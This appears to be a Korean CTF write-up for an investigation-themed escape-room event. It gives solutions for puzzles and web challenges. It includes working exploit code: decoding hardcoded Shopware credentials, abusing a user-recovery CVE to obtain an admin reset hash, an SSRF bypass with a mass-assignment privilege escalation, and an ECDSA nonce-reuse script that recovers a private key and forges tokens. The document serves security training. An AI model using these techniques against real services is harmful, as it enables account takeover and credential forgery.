

이 오류를 해결하기 위해 리버싱 도구로 `decryptor`를 분석해야 합니다.

##### 파일 분석

채팅 복구 시 출력되는 `=== recovered group chat ===` 문자열을 기준으로 위쪽 코드를 살펴보면 복호화 로직을 찾을 수 있습니다. 입력 파일을 여는 코드와 복호화 결과를 출력하는 코드 사이에는 다음과 같은 부분이 있습니다.



`PTR_FUN_00130d60`은 채팅 인덱스에 따라 서로 다른 함수를 호출하는 함수 포인터 배열입니다.

12번째 채팅에서 오류가 발생했으므로 12번째 복호화 함수인 `FUN_0012a3f0`을 따라갑니다. 이 함수는 `uVar3`에 20개의 변환 함수를 차례로 적용합니다. 그중 `FUN_00129e60`과 `FUN_0012a130`만 주소의 오름차순 흐름에서 벗어나 있으므로 두 함수를 먼저 확인합니다. 아래는 각 함수의 일부입니다.





두 함수는 다른 함수의 반환값에 따라 분기한다는 공통점이 있습니다. `FUN_0012a7c7`은 입력값이 `-0x59`인지, `FUN_0012a7d6`은 입력값이 `-0x3f213f22`인지 확인합니다.

두 분기를 다음 세 가지 방식으로 패치해 복호화 결과를 비교할 수 있습니다.

1. `FUN_0012a7c7`의 JNZ를 JZ로 패치
2. `FUN_0012a7d6`의 JNZ를 JZ로 패치
3. `FUN_0012a7c7`와 `FUN_0012a7d6`의 JNZ를 JZ로 패치

실행해 보면 `FUN_0012a7d6`의 JNZ만 JZ로 바꿨을 때 오류 없이 정상적으로 복호화됩니다.



12번째 채팅에는 민재훈이 이민성 교수를 계단에서 밀어버리고 싶다고 한 말과 [사이버수사대-2]의 플래그가 있습니다.

> SHA{WHAT_DID_HE_SAY}

<details markdown="1">
<summary>힌트 1</summary>

바이너리 패치

</details>

<details markdown="1">
<summary>힌트 2</summary>

분기 기준값

</details>

<details markdown="1">
<summary>힌트 3(복호화된 파일)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 채팅 기록 복구 작업을 완료했습니다.

의뢰 내용: 암호화된 채팅 데이터의 누락된 메시지 복구
대상 자료: `chat_1.dat`~`chat_4.dat`
처리 결과: 누락된 메시지를 포함한 전체 채팅 기록 복구 완료
작업 비용: 70점

아래 링크에 채팅의 복구 결과 파일을 올려두었습니다.
```
<파일 드라이브 링크>
```

다음에도 잘 부탁드립니다.
````

</details>

#### [사이버수사대-3] 자주 이용하는 사이트

방에 있는 문서 중 하나는 이민성 사망 사건 관계인의 온라인 활동 내역을 요청하는 온라인 서비스 이용 기록 조회 요청서입니다.



문서에 찍힌 여섯 개의 날인에서 알파벳 다섯 개를 얻어 자물쇠를 여는 것이 목표입니다.

최하단의 날인을 기준으로 위의 다섯 날인에서 겹치는 모양을 제거하면 각각 알파벳 하나가 남습니다. 결과는 다음과 같습니다.


남은 모양을 알파벳으로 읽은 `ECART`로 상자를 열면 다음 카드를 얻을 수 있습니다.



참가자는 이 카드도 가져갈 수 있으며, 카드에는 [사이버수사대-3]의 플래그와 [사이버수사대-4], [사이버수사대-5]의 문제 서버 주소가 적혀 있습니다.

> SHA{CHECK_THE_HISTORY}

<details markdown="1">
<summary>힌트 1</summary>

겹치는 선 제거

</details>

<details markdown="1">
<summary>힌트 2(정답)</summary>

ECART

</details>

#### [사이버수사대-4] 구매



[사이버수사대-3] 문제를 해결하고 얻은 주소 중 하나는 사건 관련 인물이 자주 사용했던, IRUMAE mall의 주소였습니다. 수사 참고 자료에서의 언급에 따라 관리자 계정을 획득해야 합니다.

먼저 회원가입을 하면 우측 상단에 파트너를 검색해 보라고 합니다. 검색해 보면 기존에는 볼 수 없었던, 0원짜리 상품이 있습니다.


해당 제품을 클릭해 사용자 리뷰에 있는 설치 코드 `a05a2c98d7750177`를 확인할 수 있고, ‘바로 구매’ 버튼을 통해 내 구매 기록으로 이동하면 첨부 파일(`partner-client.zip`)을 다운로드하고  `/admin/claim`의 관리자 인증 페이지 엔드포인트를 확인할 수 있습니다.


`/admin/claim`에서는 관리자 권한을 얻기 위해 네 개의 값을 요구합니다.


##### 파일 분석 및 정보 수집

`partner-client.zip`에는 `connector.js` 파일이 있으며, 내용은 다음과 같습니다.

```jsx
(() => {
    "use strict";
    const p = Object.freeze({
        "a": "/backoffice/api",
        "p": "Shopware",
        "r": "6.7.10.0",
        "c": "Y2F0YWxvZy1hdWRpdG9yOkF1ZGl0IUE5LU82Um1QTnREMi1SaHVOZlpveVlIN0VOQXprcl9pUnB6"
    });
    const o = Object.freeze({
        "v": 1,
        "a": "AES-GCM",
        "i": "4hEwy65RvcrRC6sN",
        "c": "8G2UJ9ZBn3d9XBEOXy565/PZRahr/DJSMhi8Mnt5RIpBwxij6i2ppEd2Hd6uQVNW4A=="
    });
    const d = new TextEncoder();
    const r = /^[0-9a-f]{16}$/u;
    const m = /^[^\s@]{1,64}@[^\s@]{1,190}$/u;
    const z = d.encode("nori-partner-envelope-v1");
    const e = Object.freeze({
        t: p.a + "/oauth/token",
        u: p.a + "/search/user",
        r: p.a + "/search/user-recovery"
    });

    function b(value) {
        const decoded = globalThis.atob(value);
        return Uint8Array.from(decoded, (character) => character.charCodeAt(0));
    }

    function h(token) {
        return Object.freeze({
            Accept: "application/json",
            "Content-Type": "application/json",
            Authorization: "Bearer " + token
        });
    }
    async function j(fetchImpl, endpoint, init) {
        const response = await fetchImpl(endpoint, init);
        if (!response.ok) throw new Error("E_REMOTE_" + response.status);
        return response.json();
    }
    async function k(reference, value) {
        if (typeof value !== "string" || !/^[A-Za-z0-9_-]{24,128}$/u.test(value)) {
            throw new Error("E_CONTEXT");
        }
        const material = d.encode("nori-partner-binding-v2\u0000" + reference + "\0" + value);
        const digest = await globalThis.crypto.subtle.digest("SHA-256", material);
        return globalThis.crypto.subtle.importKey("raw", digest, "AES-GCM", false, ["decrypt"]);
    }
    async function a(reference, value) {
        if (typeof reference !== "string" || !r.test(reference)) throw new Error("E_INPUT");
        try {
            const key = await k(reference, value);
            const plaintext = await globalThis.crypto.subtle.decrypt({
                name: o.a,
                iv: b(o.i),
                additionalData: z,
                tagLength: 128
            }, key, b(o.c));
            const value = new TextDecoder("utf-8", {
                fatal: true
            }).decode(plaintext);
            if (!m.test(value)) throw new Error("E_DATA");
            return value;
        } catch {
            throw new Error("E_INPUT");
        }
    }

    function c(value) {
        const decoded = new TextDecoder().decode(b(value));
        const separator = decoded.indexOf(":");
        if (separator < 1) throw new Error("E_PROFILE");
        return [decoded.slice(0, separator), decoded.slice(separator + 1)];
    }
    async function q(fetchImpl = globalThis.fetch) {
        const credential = c(p.c);
        return j(fetchImpl, e.t, {
            method: "POST",
            headers: Object.freeze({
                Accept: "application/json",
                "Content-Type": "application/json"
            }),
            body: JSON.stringify({
                username: credential[0],
                password: credential[1],
                grant_type: "password",
                client_id: "administration"
            })
        });
    }
    async function s(accessToken, reference, value, fetchImpl = globalThis.fetch) {
        return j(fetchImpl, e.u, {
            method: "POST",
            headers: h(accessToken),
            body: JSON.stringify({
                email: await a(reference, value)
            })
        });
    }
    globalThis.NoriPartnerBridge = Object.freeze({
        status: () => Object.freeze({
            ready: true,
            product: p.p,
            release: p.r
        })
    });
})();
```

로그인 함수 `q()`를 보면 `p.c`를 Base64로 디코딩해 아이디와 비밀번호로 나눈 뒤 `/backoffice/api/oauth/token`에 전송합니다.

이 요청을 직접 보내 백오피스 API를 사용할 수 있는 `access_token`을 발급받을 수 있습니다.

```
POST /backoffice/api/oauth/token HTTP/1.1
Content-Type: application/json

{
  "username": "catalog-auditor",
  "password": "Audit!A9-O6RmPNtD2-RhuNfZoyYH7ENAzkr_iRpz",
  "grant_type": "password",
  "client_id": "administration"
}
```


이것을 뜯어보면 페이로드 쪽에서 `resetContext`라는 값을 발견할 수 있습니다.


이 값의 용도는 `connector.js`의 복호화 함수를 보면 알 수 있습니다. `a()`의 첫 번째 인자인 `reference`는 소문자 16진수 16자리여야 하고, 두 번째 인자인 `value`는 `E_CONTEXT`라는 오류명과 함께 24~128자리 문자열로 검사됩니다.
앞에서 확인한 설치 코드는 `reference`의 형식에 맞고, JWT의 `resetContext`는 `value`에 해당합니다. 따라서 두 값을 다음 키 생성식에 넣을 수 있습니다.

```
AES key = SHA256(키 도메인 + 설치 코드 + NUL 바이트 + resetContext)
```

`connector.js`에서 키 도메인은 `nori-partner-binding-v2\0`, additional data는 `nori-partner-envelope-v1`로 정의되어 있습니다. `o.i`와 `o.c`는 Base64로 저장되어 있으므로 디코딩한 뒤 다음과 같이 복호화합니다.

```python
import base64
import hashlib

from cryptography.hazmat.primitives.ciphers.aead import AESGCM

install_code = "a05a2c98d7750177"
reset_context = "zQpmBUuQm7VDfeGePVWVWEcgXMHsLLX0"
iv = base64.b64decode("4hEwy65RvcrRC6sN")
ciphertext = base64.b64decode("8G2UJ9ZBn3d9XBEOXy565/PZRahr/DJSMhi8Mnt5RIpBwxij6i2ppEd2Hd6uQVNW4A==")

key = hashlib.sha256(
    b"nori-partner-binding-v2\x00"
    + install_code.encode()
    + b"\x00"
    + reset_context.encode()
).digest()

email = AESGCM(key).decrypt(
    iv,
    ciphertext,
    b"nori-partner-envelope-v1",
).decode()

print(email)

```


복호화에 성공하면 관리자 이메일이 출력됩니다. 이 값이 이메일이라는 사실은 앞서 본 `s()` 함수에서도 확인할 수 있습니다. `a()`의 반환값을 `email`이라는 이름으로 `/search/user`에 보내고 있습니다.

```
POST /backoffice/api/search/user HTTP/1.1
Authorization: Bearer <access_token>
Content-Type: application/json

{"email":"admin-664eebe789fef4da@nori.local"}
```


`connector.js`에는 아직 사용하지 않은 `/search/user-recovery` 경로와 Shopware 버전 `6.7.10.0`도 남아 있습니다. 따라서 이 버전의 사용자 복구 기능과 관련된 공개 취약점을 확인하면 `CVE-2026-48009`를 찾을 수 있습니다. 낮은 권한의 연동 계정으로 사용자 복구 정보를 조회했을 때 비밀번호 복구용 `hash`까지 노출되는 취약점입니다.

`/search/user` 응답의 `data[0].id`가 관리자 사용자 ID입니다. Shopware의 검색 API는 `filter` 배열로 조회 조건을 지정하므로, 이 값과 `userId`가 같은 복구 레코드를 검색합니다.

```
POST /backoffice/api/search/user-recovery HTTP/1.1
Authorization: Bearer <access_token>
Content-Type: application/json

{
  "filter": [
    {"type":"equals","field":"userId","value":"01a135b2f09771ac9d87cf971b354c56"}
  ]
}
```


응답에는 해당 사용자의 `id`, `userId`, `hash`가 들어 있으며, 이 중 `hash`가 노출된 값입니다.

##### 관리자 인증

이제 얻은 값들을 `/admin/claim`의 입력 조건과 대조합니다. 입력 조건은 브라우저 개발자 도구에서 각 `input` 요소의 `pattern`과 길이를 보면 확인할 수 있습니다.

| 입력란 | 입력 조건 | 대응하는 값 |
| --- | --- | --- |
| 계정 식별자 | 최대 254자 | `/search/user`에서 계정을 찾을 때 사용한 이메일 |
| 사용자 식별자 | 소문자 16진수 32자리 | `/search/user` 응답의 `id` |
| 인증 값 | 영문·숫자 32자리 | `/search/user-recovery` 응답의 `hash` |
| 환경 식별자 | 영문·숫자·`_`·`-` 24~128자리 | JWT의 `resetContext` |

모든 값의 수집을 한 번에 진행하는 코드는 다음과 같습니다.


```python
import base64
import hashlib
import json
import re
import zipfile

import requests
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

base = "http://127.0.0.1:40601"
zip_path = "./partner-client.zip"
install_code = "a05a2c98d7750177"

with zipfile.ZipFile(zip_path) as archive:
    source = archive.read("dist/connector.js").decode()

def read_object(name):
    match = re.search(
        rf"\bconst\s+{name}\s*=\s*Object\.freeze\s*\(\s*(\{{[^\n;]*\}})\s*\)",
        source,
    )
    return json.loads(match.group(1))

profile = read_object("p")
envelope = read_object("o")
aad = json.loads(re.search(
    r'\bconst\s+z\s*=\s*d\.encode\s*\(\s*("(?:\\.|[^"\\])*")',
    source,
).group(1))
key_domain = json.loads(re.search(
    r'd\.encode\s*\(\s*("(?:\\.|[^"\\])*")\s*\+\s*\w+\s*\+\s*"\\0"',
    source,
).group(1))

username, password = base64.b64decode(profile["c"]).decode().split(":", 1)
response = requests.post(base + profile["a"] + "/oauth/token", json={
    "username": username,
    "password": password,
    "grant_type": "password",
    "client_id": "administration",
})
response.raise_for_status()
access_token = response.json()["access_token"]

payload = access_token.split(".")[1]
payload += "=" * (-len(payload) % 4)
reset_context = json.loads(base64.urlsafe_b64decode(payload))["resetContext"]

key = hashlib.sha256(
    key_domain.encode()
    + install_code.encode()
    + b"\x00"
    + reset_context.encode()
).digest()
admin_email = AESGCM(key).decrypt(
    base64.b64decode(envelope["i"]),
    base64.b64decode(envelope["c"]),
    aad.encode(),
).decode()

headers = {"Authorization": "Bearer " + access_token}
response = requests.post(
    base + profile["a"] + "/search/user",
    headers=headers,
    json={"email": admin_email},
)
response.raise_for_status()
admin_id = response.json()["data"][0]["id"]

response = requests.post(
    base + profile["a"] + "/search/user-recovery",
    headers=headers,
    json={"filter": [{
        "type": "equals",
        "field": "userId",
        "value": admin_id,
    }]},
)
response.raise_for_status()
recovery_hash = response.json()["data"][0]["hash"]

print("계정 식별자:", admin_email)
print("사용자 식별자:", admin_id)
print("인증 값:", recovery_hash)
print("환경 식별자:", reset_context)
```



수집한 네 값을 제출하면 관리자 권한을 얻을 수 있습니다.


이후 “사용자 활동 조회”에서 강예은의 활동 기록을 확인할 수 있습니다.


> SHA{FOLLOW_THE_RECEIPT}

<details markdown="1">
<summary>힌트 1</summary>

search: partner

</details>

<details markdown="1">
<summary>힌트 2</summary>

Shopware 6.7.10.0<br>
CVE-2026-48009

</details>

<details markdown="1">
<summary>힌트 3(관리자 권한 획득 익스플로잇)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 온라인 쇼핑몰의 관리자 권한 확보를 완료했습니다.

의뢰 내용: 사이트의 관리자 권한 확보
대상 서비스: IRUMAE 온라인 쇼핑몰
처리 결과: 관리자 권한 확보 및 가이드 전달
작업 비용: 70점

관리자 권한이 필요하다고 했으니 아래 절차를 따르십시오.

1. 아래 링크에서 파일을 다운로드 받습니다.
```
<익스플로잇 코드 파일 드라이브 링크>
```
2. 서버에 접속합니다.
3. 개발자 도구를 열고(F12), 콘솔 창에 다운로드 받은 파일의 내용을 붙여넣고 실행합니다.

다음에도 잘 부탁드립니다.
````

</details>

#### [사이버수사대-5] 거래


[사이버수사대-3] 문제를 해결하고 얻은 주소 중 다른 하나는 Re:Loop라는 중고 물품을 등록하고 거래할 수 있는 사이트입니다.

회원가입 후 `/admin`에 접속하면 권한이 없다는 오류가 발생합니다.
권한을 올릴 수 있는 기능을 찾기 위해 마이페이지를 살펴보면 `검수 파트너 초대` 메뉴가 있습니다. 이곳에 임의의 값을 입력해 보면 입력한 값이 `bootstrapToken`이라는 이름으로 `/api/v1/reviewer/session`에 요청이 전송되며 올바른 토큰이 아니라는 응답이 돌아옵니다.


따라서 다른 기능을 이용해 올바른 토큰을 얻을 수 있는지 살펴봐야 합니다.


이 과정에서 고객센터의 `거래 링크 미리보기`를 확인합니다. URL을 입력하면 해당 페이지의 내용을 대신 가져오며, Network 탭에서는 입력한 URL이 `POST /api/v1/link-previews`로 전달됩니다. 브라우저가 아닌 서버가 URL에 접속하는 기능이므로, 외부에 공개되지 않은 내부 API에도 접근할 수 있는지 시험할 수 있습니다.

##### SSRF

내부 주소를 그대로 입력하면 Re:Loop 주소만 허용된다는 오류가 나옵니다. 그러나 URL의 사용자 정보 부분을 이용해 `reloop.test@127.0.0.1` 형태로 입력하면 검사를 통과하면서 실제 요청은 `127.0.0.1`로 전송됩니다.

내부 웹 서비스에서 자주 사용하는 `80`, `3000`, `8000`, `8080`번 포트에 상태 확인 경로인 `/actuator/health`를 요청해 보면 `8080`번 포트에서만 정상 응답이 돌아옵니다. 입력 검사는 앞부분의 `reloop.test`를 보고 허용하지만 URL 파서는 `127.0.0.1`에 접속하기 때문에 SSRF가 발생합니다.


앞에서 검수 파트너 초대 요청이 전송되는 위치인 `/api/v1/reviewer/session`와 토큰의 이름 `bootstrapToken`을 단서로, `/internal/reviewer/bootstrap`이라는 경로로 요청을 전송하면 `bootstrapToken`을 얻을 수 있습니다.


해당 토큰을 검수 파트너 초대 코드로서 입력해 확인을 누르면 활성화 메시지와 함께 마이페이지에서 검수 센터를 열어보라고 합니다.


이후 마이페이지를 새로고침하면 `검수 센터` 메뉴가 나타납니다. 이곳에서 알림 설정을 저장하면 `PATCH /api/v1/reviewer/settings` 요청이 발생하는데, 응답을 확인하면 사용자의 권한 레벨을 나타내는 `approvalRole` 정보가 포함되어 있습니다.


`/api/v1/reviewer/settings`에 대한 요청의 json 데이터에 `"approvalRole":"ADMIN"`이라는 요소를 포함해 재전송하면 `approvalRole`이 `"ADMIN"`으로 바뀐 것을 확인할 수 있으며, 이후 `/admin`에 대한 접근이 가능해집니다.

```
PATCH /api/v1/reviewer/settings HTTP/1.1
Content-Type: application/json

{
    "reviewNotifications":true,
    "approvalRole":"ADMIN"
}
```


관리자 페이지에서는 윤하진과 최옥순의 활동 내역을 확인할 수 있습니다. 윤하진은 사건 발생 시각에 “모서리수집가”라는 이용자와 현장 중고거래를 한 채팅 내역이 있으며, 최옥순이 게시한 물품 중에는 이민성 교수의 물품으로 보이는 것이 있습니다.


플래그는 로그아웃 후 재로그인 시 획득할 수 있습니다.


> SHA{WHO_SOLD_WHAT}

<details markdown="1">
<summary>힌트 1</summary>

SSRF<br>
reloop.test@127.0.0.1

</details>

<details markdown="1">
<summary>힌트 2(관리자 권한 획득 익스플로잇)</summary>

````markdown
### 외주 작업 완료 보고
의뢰받은 중고거래 사이트의 관리자 권한 확보를 완료했습니다.

의뢰 내용: 사이트의 관리자 권한 확보
대상 서비스: Re:Loop 중고거래 서비스
처리 결과: 관리자 권한 확보 및 가이드 전달
작업 비용: 70점

아래 절차를 따르십시오.

1. 아래 링크에서 파일을 다운로드 받습니다.
```
<익스플로잇 코드 파일 드라이브 링크>
```
2. 서버에 접속합니다.
3. 개발자 도구를 열고(F12), 콘솔 창에 다운로드 받은 파일의 내용을 붙여넣고 실행합니다.

다음에도 잘 부탁드립니다.
````

</details>

#### 획득할 수 있는 정보

[사이버수사대-1] ~ [사이버수사대-5]에서 획득할 수 있었던 사건 관련 주요 정보는 다음과 같습니다.

- [사이버수사대-2] : 민재훈의 채팅 기록 - 민재훈이 교수를 계단에서 밀어버리고 싶다고 한 내용
- [사이버수사대-2] : 오세린과 윤하진의 대화 내용 - 오세린이 논문에 대해 윤하진과 대화하는 내용
- [사이버수사대-4] : 강예은이 이태규에게 비싼 선물을 한 기록
- [사이버수사대-4] : 강예은이 이태규에게 세제를 전달한 기록
- [사이버수사대-5] : 윤하진이 사건 발생 시각에 중고거래를 하러 나가 있었던 것을 증명할 채팅 기록
- [사이버수사대-5] : 최옥순이 교수에게서 훔친 물건을 판매한 기록

<span id="campus-network"></span>

### 수사 장소 3 - 학교 전산망


수사 참고자료에는 학교 전산망 서버에서 용의자들의 교내 출입 기록과 메일 기록을 확인하고, 닫힌 서버부터 복구하라고 적혀 있습니다.

방에 들어가면 서버를 복구하라는 메모와 `비상 대응 매뉴얼`을 확인할 수 있습니다. 매뉴얼에는 [학교 전산망-1]과 [학교 전산망-3] 두 문제의 설명이 담겨 있습니다. 정보를 얻으려면 두 문제를 풀어 학교 전산망 서버를 복구해야 합니다.

이후 랜선과 CD 소품, 5자리 알파벳 자물쇠가 달린 상자, 4자리 숫자 금고를 발견할 수 있습니다.

#### [학교 전산망-1] 인증 서버


[학교 전산망-1]은 랜선과 포트를 사용하는 논리 문제입니다. LAN 1부터 LAN 4까지를 조건에 맞게 Port 1부터 Port 4까지 연결한 뒤, 포트 순서대로 LAN에 적힌 숫자를 읽으면 됩니다. LAN 1, 2, 3, 4에는 각각 `2`, `8`, `5`, `3`이 적혀 있습니다.

먼저 3번 조건을 적용하면 후보가 다음 네 개로 줄어듭니다. 아래 숫자는 Port 1, 2, 3, 4에 연결된 LAN 번호입니다.

1. 1 2 3 4
2. 2 1 3 4
3. 1 4 2 3
4. 2 4 1 3

포트 번호가 1, 2, 3, 4이므로 `1+2=3` 또는 `1+3=4`를 만족하는 배치는 위 네 개뿐입니다. 여기에 2번 조건과 1번 조건을 차례로 적용하면 LAN을 2, 4, 1, 3 순서로 연결해야 함을 알 수 있습니다. LAN에 적힌 숫자를 순서대로 읽은 `8325`로 금고를 열면 다음 카드와 문서를 얻을 수 있습니다.


카드에는 [학교 전산망-1]의 플래그와 [학교 전산망-2] 문제 파일로 연결되는 QR 코드가 있으며, 참가자가 가져갈 수 있습니다. `서버 암호키 변환표`는 이후 문제에 **사용할 수도 있는** 문서입니다.

> SHA{PORTS_ALIGNED}

<details markdown="1">
<summary>힌트 1</summary>

Port 1 - LAN 2<br>
Port 3 - LAN 1

</details>

<details markdown="1">
<summary>힌트 2(정답)</summary>

8325

</details>

#### [학교 전산망-2] 학생/교직원 인증

[학교 전산망-1] 문제 해결 후 얻을 수 있는 것은 UOS 통합인증 모듈의 압축파일이며, `uos_auth.py`와 학생·교직원 예시 토큰이 들어 있습니다. 안내문에는 UOS WISE도 동일한 토큰 생성 코드를 사용한다고 적혀 있습니다.


토큰은 점(`.`)을 기준으로 본문과 서명으로 나뉩니다. 예시 토큰의 본문을 Base64 URL 디코딩하면 다음 내용이 나옵니다.

```json
{"issuer":"UOS-AUTH","subject":"20261234","type":"student"}
{"issuer":"UOS-AUTH","subject":"staff042","type":"staff"}
```

##### 취약점 확인

`uos_auth.py`의 서명 코드를 보면 `_SIGNING_NONCE`를 파일을 불러올 때 한 번만 만든 뒤 모든 토큰에 재사용합니다.

```python
_SIGNING_NONCE = secrets.randbelow(N - 1) + 1

def create_token(payload, private_key):
    # 중략
    rx, _ = _scalar_mul(_SIGNING_NONCE)
    r = rx % N
    s = ((z + r * private_key) * _inv(_SIGNING_NONCE, N)) % N
```

ECDSA의 nonce `k`는 서명할 때마다 새로 만들어야 합니다. `r`은 `k`로부터 계산되므로 두 예시 토큰의 `r`이 같다는 것은 같은 `k`를 썼다는 뜻입니다. 실제로 서명의 앞 32바이트를 비교하면 둘 다 다음 값을 가지고 있습니다.

```
497295b1c47d27831a46035d4a26998392be254c03f45f878fc527fc99d2b772
```

ECDSA 서명식은 다음과 같습니다. `z`는 토큰 본문의 SHA-256 값이고, `d`는 개인키입니다.

```
s1 = (z1 + r·d) / k mod N
s2 = (z2 + r·d) / k mod N
```

두 식에서 `r`, `s`, `z`를 모두 알고 있으므로 nonce `k`와 개인키 `d`를 차례로 계산할 수 있습니다.

```
k = (z1-z2) / (s1-s2) mod N
d = (s1·k-z1) / r mod N
```

예시 토큰과 같은 필드만 넣어 만든 토큰을 UOS WISE의 회원가입 폼에 제출하면 `UOS WISE용 인증 토큰이 아닙니다`라는 오류가 나옵니다. 서비스 구분에 흔히 쓰는 `aud` 필드가 빠졌기 때문이므로 `"aud":"UOS-WISE"`를 추가해 다시 서명하면 됩니다.

아래 코드는 두 예시 토큰에서 개인키를 복구하고 UOS WISE용 교직원 토큰을 만듭니다.

```python
import base64
import hashlib
import json
from pathlib import Path

N = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141

def decode_base64url(text):
    return base64.urlsafe_b64decode(text + "=" * (-len(text) % 4))

def read_signature(path):
    body, signature = Path(path).read_text().strip().split(".")
    signature = decode_base64url(signature)
    r = int.from_bytes(signature[:32], "big")
    s = int.from_bytes(signature[32:], "big")
    z = int.from_bytes(hashlib.sha256(body.encode()).digest(), "big")
    return r, s, z

r1, s1, z1 = read_signature("sample_student.token")
r2, s2, z2 = read_signature("sample_staff.token")
assert r1 == r2

# 같은 nonce로 만든 두 서명에서 nonce와 개인키를 복구합니다.
k = (z1 - z2) * pow(s1 - s2, -1, N) % N
private_key = (s1 * k - z1) * pow(r1, -1, N) % N

# UOS WISE가 요구하는 내용으로 새 토큰 본문을 만듭니다.
payload = {
    "aud": "UOS-WISE",
    "issuer": "UOS-AUTH",
    "subject": "new-staff-001",
    "type": "staff",
}
body = base64.urlsafe_b64encode(json.dumps(
    payload,
    ensure_ascii=False,
    sort_keys=True,
    separators=(",", ":"),
).encode()).rstrip(b"=").decode()

# 복구한 개인키와 nonce로 새 본문에 서명합니다.
z = int.from_bytes(hashlib.sha256(body.encode()).digest(), "big")
s = (z + r1 * private_key) * pow(k, -1, N) % N
signature = r1.to_bytes(32, "big") + s.to_bytes(32, "big")
token = body + "." + base64.urlsafe_b64encode(signature).rstrip(b"=").decode()

print(f"private key = {private_key:#x}")
print(token)
```


